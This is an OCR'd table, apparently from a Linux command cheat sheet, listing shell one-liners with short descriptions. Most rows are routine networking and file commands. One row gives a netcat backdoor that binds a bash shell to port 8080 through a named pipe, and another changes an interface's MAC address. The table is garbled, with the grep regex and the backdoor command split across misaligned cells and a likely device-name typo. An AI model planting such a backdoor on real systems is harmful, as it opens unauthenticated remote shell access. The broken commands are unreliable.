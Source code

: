 | `grep -E "(25[0-5]                                                               | 2[0-4][0-9]                                                                                                                  | [01]?[0-9][0-9]?)\.(25[0-5]                                                                                    | 2[0-4][0-9]                                                                                                         |
| `curl -d "param1=value&param2=value" https://example.com/resource.cgi`           | Sends parameters with `curl`                                                                                                 |                                                                                                                |                                                                                                                     |
| `date -d @1286536308`                                                            | Converts an epoch timestamp to `date` output                                                                                 |                                                                                                                |                                                                                                                     |
| `mknod backpipe p; /bin/bash 0<backpipe                                          | nc -l -p 8080 1>backpipe`                                                                                                    | Creates a netcat backdoor without `-e` support                                                                 |                                                                                                                     |
| `tar -zcvf files.tar.gz /var/log/apache2`                                        | Creates a `files.tar.gz` archive of all files in `/var/log/apache2`                                                          |                                                                                                                |                                                                                                                     |
| `prips 10.10.10.0/24`                                                            | Prints all IPs in a specific subnet                                                                                          |                                                                                                                |                                                                                                                     |
| `ifconfig eth0 169.254.0.1 netmask 255.255.0.0 broadcast 169.254.255.255`        | Assigns an IP address from the terminal                                                                                      |                                                                                                                |                                                                                                                     |
| `ifconfig eth0 down; ifconfig eth0 hw ether 00:11:22:33:44:55; ifconfig eth0 up` | Changes the MAC address for interface `eth0`                                                                                 |                                                                                                                |                                                                                                                     |
| `dhclient eth0`                                                                  | Requests a DHCP address on interface `eth0`                                                                                  |                                                                                                                |                                                                                                                     |
| `dd if=./input.file of=./outfile`                                                | Makes a bit-by-bit copy of a file or system                                                                                  |                                                                                                                |                                                                                                                     |
| `sudo ln -s /usr/bin/python3 /usr/bin/python`                                    | Creates a symbolic link for Python to run Python 3                                                                           |                                                                                                                |                                                                                                                     |
| `sudo mkdir /mnt/new`                                                            | Creates a new directory `/mnt/new` with `sudo` permissions                                                                   |                                                                                                                |                                                                                                                     |
| `mount /dev/sbd1 /mnt/new`                                                       | Mounts the file system located at `/dev/sbd1` to the directory `/mnt/new`                                                    |                                                                                                                |                                                                                                                     |